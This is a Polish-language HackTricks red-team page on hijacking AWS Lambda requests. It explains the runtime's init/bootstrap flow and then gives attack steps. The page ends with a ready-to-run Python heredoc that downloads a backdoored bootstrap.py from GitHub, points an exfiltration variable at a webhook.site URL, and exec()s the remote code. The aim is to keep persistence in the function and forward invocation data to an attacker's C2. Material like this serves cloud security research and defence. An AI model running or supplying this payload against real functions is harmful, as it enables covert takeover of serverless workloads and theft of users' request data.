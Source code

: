 # AWS - Ukradnij żądania Lambda

<details>

<summary><strong>Zacznij od zera i stań się ekspertem od hakowania AWS dzięki</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) albo **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>

## Przepływ Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** to proces poza kontenerem, który **wysyła wywołania** do procesu **init**.
2. Proces init nasłuchuje na porcie **9001**, ujawniając kilka interesujących punktów końcowych:
* **`/2018-06-01/runtime/invocation/next`** – pobierz następne zdarzenie wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – zwróć odpowiedź obsługiwarza dla wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – zwróć błąd wykonania
3. **bootstrap.py** ma pętlę pobierającą wywołania od procesu init i wywołuje kod użytkownika do ich obsługi (**`/next`**).
4. W końcu **bootstrap.py** wysyła do init **odpowiedź**.

Należy zauważyć, że bootstrap ładuje kod użytkownika jako moduł, więc wszelkie wykonania kodu wykonywane przez kod użytkownika faktycznie mają miejsce w tym procesie.

## Kradzież żądań Lambda

Celem tego ataku jest spowodowanie wykonania przez kod użytkownika złośliwego procesu **`bootstrap.py`** wewnątrz procesu **`bootstrap.py`**, który obsługuje podatne żądanie. W ten sposób **złośliwy proces bootstrap** rozpocznie **komunikację z procesem init** w celu obsługi żądań, podczas gdy **uczciwy** bootstrap jest **uwięziony** uruchamiając złośliwy, więc nie będzie prosił o żądania do procesu init.&#x20;

Jest to proste zadanie do osiągnięcia, ponieważ kod użytkownika jest wykonywany przez uczciwy proces **`bootstrap.py`**. W związku z tym atakujący mógłby:

* **Wysłać fałszywy wynik bieżącego wywołania do procesu init**, aby init myślał, że proces bootstrap czeka na więcej wywołań.
* Należy wysłać żądanie do **`/${invoke-id}/response`**&#x20;
* Identyfikator wywołania można uzyskać z stosu uczciwego procesu **`bootstrap.py`** za pomocą modułu pythona [**inspect**](https://docs.python.org/3/library/inspect.html) (jak [zaproponowano tutaj](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) lub po prostu ponownie żądając go do **`/2018-06-01/runtime/invocation/next`** (jak [zaproponowano tutaj](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Wykonaj złośliwy **`boostrap.py`**, który będzie obsługiwał kolejne wywołania
* W celu zachowania dyskrecji można przesłać parametry wywołań lambda do kontrolowanego przez atakującego C2, a następnie obsługiwać żądania jak zwykle.
* Dla tego ataku wystarczy uzyskać oryginalny kod **`bootstrap.py`** z systemu lub [**githuba**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodać złośliwy kod i uruchomić go z bieżącego wywołania lambdy.

### Kroki ataku

1. Znajdź podatność na **RCE**.
2. Wygeneruj **złośliwy** **bootstrap** (np. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Wykonaj** złośliwy bootstrap.

Możesz łatwo wykonać te czynności, uruchamiając:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Dla dalszych informacji sprawdź [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referencje

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)
